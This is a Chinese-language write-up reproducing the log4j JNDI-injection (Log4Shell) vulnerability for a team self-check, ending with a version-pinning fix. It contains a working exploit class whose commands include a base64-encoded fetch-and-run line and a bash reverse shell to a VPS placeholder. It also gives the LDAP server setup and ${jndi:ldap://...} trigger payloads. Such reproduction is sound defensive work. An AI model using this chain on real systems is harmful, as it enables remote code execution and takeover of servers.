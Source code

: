 ## 漏洞原理

漏洞预警： https://mp.weixin.qq.com/s/WBbAthHY36qY0w9e4UUl4Q

本质上是 log4j 里的 lookup 方法存在 jndi 注入（看图）：

![lookup](https://adan0s-1256533472.cos.ap-nanjing.myqcloud.com/uPic/20211210091200YOXTYd.jpg)



## 漏洞复现

### 复现原理
log4j的 lookup功能在遇到特定命令时并非只是打印指定的文本而是去执行一些命令 例如

```java
LOGGER.error("${java:os}");
```
输出结果

```
21:22:09.431 [main] ERROR Test - Mac OS X 10.14.6 unknown, architecture: x86_64-64
```
在进入恶意攻击时，攻击原理是借助 JNDI Reference来达到在本地执行远程恶意代码。关于这部分的详细原理可以参考[这篇文章](https://y4er.com/post/attack-java-jndi-rmi-ldap-2/)。

因此实际操作中借助 `LOGGER.error("${jndi:ldap://127.0.0.1:1389/#Exploit}")`;
（使用LOGGER.info等其他级别的日志也可以达到同样的效果）来调用 ldap服务来执行恶意代码。


### 复现步骤
1、准备一个恶意类 

```java
public class Exploit {
    public Exploit() {
    }


    static {
        try {
            //在目标机器开启计算机
            String[] cmd1 = System.getProperty("os.name").toLowerCase().contains("win")
                    ? new String[]{"cmd.exe", "/c", "calc.exe"}
                    : new String[]{"/bin/bash", "-c", "open -a /Applications/Calculator.app"};
            //在目标机器执行shell 因为jvm有可能会过滤防御，对command base64编码
            String[] cmd2 = new String[]{"/bin/bash", "-c", " {echo,Y3VybCBodHRwOi8vcG9jL3Rhc3RlZ29vZA==}|{base64,-d}|{bash,-i}"};
            //一句话木马 借助一台 vps 来拿取服务运行后台的 shell 权限
            String[] cmd3 = new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/<VPS IP>/8888 0>&1"};
            Runtime.getRuntime().exec(cmd1);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        Exploit e = new Exploit();
    }
}

```

这里我们测试恶意命令1，在目标主机打开计算机。

ps:cmd2是一个调用shell的语句；cmd3是一个直接获取目标主机 shell 的恶意木马。后面有时间可以分享恶意攻击过程。

2、将恶意类编译，然后将恶意类放在一个 web 服务的目录中，保证可以访问到

在实际操作中一般直接到恶意类的目录，使用命令`python3 -m http.server 8080`将此文件夹作为目录映射为 web 服务
映射后即可在浏览器访问到此文件，如图：
![web 服务](https://gitee.com/haigeek/picture/raw/master/uPic/dzstrp.png)

3、开启一个 ldap 服务
使用 ldap 服务快速开启工具 (开源工具：https://github.com/mbechler/marshalsec) 开启一个Ldap 服务
开启命令：
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8080/#Exploit
```
其中#后面填写你的恶意类的类名，它会自动绑定URI
开启后如图

![alt](https://gitee.com/haigeek/picture/raw/master/uPic/jLdiW5.png)


3、借助 log4j的漏洞触发攻击，jndi调用ldap 服务的恶意类并在本地执行

触发类：
```java
public class Test {

    private static final Logger LOGGER= LogManager.getLogger(Test.class);

    public static void main(String[] args) {
        LOGGER.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }

}

```
这里直接模拟了 log4j调用 jndi 场景。

在实际应用中，如果在http的请求头或者请求参数中携带恶意代码，例如在登录名的输入框输入 `${jndi:ldap://127.0.0.1:1389/Exploit}"`，而后端刚好将获取到的参数打印，由于 log4j对 lookup 的调用没有做安全限制，就会触发漏洞。

4、验证攻击是否成功

执行触发代码后，执行结果如下：
成功执行恶意类 Exploit 打开了服务运行机器的计算器

![alt](https://gitee.com/haigeek/picture/raw/master/uPic/x1YQLT.png)

在 Ldap 服务端打印了日志：

![alt](https://gitee.com/haigeek/picture/raw/master/uPic/E8xHcz.png)

可以看到请求执行Exploit类时，Ldap 服务端去我们启动的 web 服务下拿到了Exploit.class ，最终在宿主机完成执行。

## 自查
在本地按照上述步骤开启Ldap服务，在工程的 runtime 模块下执行 Test类即可。

经过测试，我们目前的代码并未受到此刻漏洞的影响。主要原因是我们用的是 SpringBoot 默认的 logback。
而elasticsearch虽然引用了 Log4j2,但是设置了optional为 true 的属性。
![alt](https://gitee.com/haigeek/picture/raw/master/uPic/cWGY15.png)
在最终编译出来的 jar 包中也不存在 log4j-core jar 包（漏洞实现类在 core 包）
![alt](https://gitee.com/haigeek/picture/raw/master/uPic/h6I23z.png)

## 处理方式

虽然我们并未直接引用 core 包，但是存在 log4j-api 包且版本在受影响的范围内，因此我们目前暂时在 parent工程中对log4j的版本做了控制。

```
<log4j2.version>2.15.0</log4j2.version>
```
ps：maven 仓库的2.15.0版本已经是基于2.15.0-rc2编译后的版本，实际测试也是可以规避漏洞的。

